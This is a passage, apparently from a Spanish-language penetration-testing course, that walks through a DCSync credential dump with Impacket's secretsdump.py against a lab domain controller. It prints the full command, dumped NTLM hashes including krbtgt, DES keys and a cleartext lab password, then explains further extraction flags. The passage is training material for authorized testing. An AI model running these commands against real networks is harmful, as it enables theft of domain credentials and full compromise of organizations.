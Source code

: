Ejecutar la herramienta como a continuación escribirá todos los hashes en archivos con el prefijo `inlanefreight_hashes`. La flag `-just-dc` le dice a la herramienta que extraiga hashes NTLM y claves Kerberos del archivo NTDS.

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py

```r
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

Podemos usar la flag `-just-dc-ntlm` si solo queremos hashes NTLM o especificar `-just-dc-user <USERNAME>` para solo extraer datos de un usuario específico. Otras opciones útiles incluyen `-pwd-last-set` para ver cuándo fue la última vez que se cambió la contraseña de cada cuenta y `-history` si queremos volcar el historial de contraseñas, lo que puede ser útil para el descifrado de contraseñas offline o como datos complementarios sobre las métricas de fortaleza de las contraseñas del dominio para nuestro cliente. La flag `-user-status` es otra opción útil para verificar si un usuario está deshabilitado. Podemos volcar los datos de NTDS con esta flag y luego filtrar a los usuarios deshabilitados al proporcionar a nuestro cliente estadísticas de descifrado de contraseñas para asegurarnos de que datos como:
